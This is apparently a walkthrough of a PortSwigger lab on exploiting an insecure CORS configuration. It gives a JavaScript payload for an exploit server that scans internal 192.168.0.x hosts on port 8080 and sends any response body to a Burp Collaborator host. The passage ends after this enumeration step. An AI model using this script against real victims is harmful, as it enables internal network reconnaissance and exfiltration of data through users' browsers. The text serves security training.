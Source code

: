 **BURP Professional needed (collaborator)**

> This website has an insecure CORS configuration in that it trusts all internal network origins.
> 
> This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user Carlos.

This attack will have to be performed in few steps as we need to enumerate first, hence needing more than a single script.

This is the code that will be used to enumerate the internal network. It will be copied to an exploit server and delivered to victim.

```html
<script>
var q = [], collaboratorURL = 'http://jczxolrxtxilgme7dqz1sb1g57byzond.oastify.com';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

After some time HTTP request should hit our Collaborator instance:
